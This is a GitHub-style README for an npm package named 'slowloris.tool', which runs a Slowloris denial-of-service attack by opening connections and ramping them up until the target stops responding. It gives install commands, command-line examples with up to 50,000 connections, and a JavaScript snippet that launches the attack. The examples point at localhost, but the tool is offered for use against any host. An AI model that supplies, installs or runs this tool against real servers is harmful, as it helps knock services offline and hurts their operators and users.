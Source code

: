 
### `Intro`
Example of slowloris attack it should start with a few connections and try and ramp up until I can't connected anymore

#### `Install`
``` bash
npm install --save git+https://github.com/anzerr/slowloris.tool.git
```

``` bash
git clone git+https://git@github.com/anzerr/slowloris.tool.git &&
cd slowloris.tool &&
npm link
```

### `Example`
``` bash
slowloris --host localhost:8080 --max 50000
slowloris --host https://localhost:8080
```

``` javascript
const Loris = require('slowloris.tool');
let l = new Loris('http://localhost:8080', 100000).attack();
return new Promise((resolve) => l.once('end', resolve)).then(() => {
	console.log('attack ended');
}).catch(console.log);
```
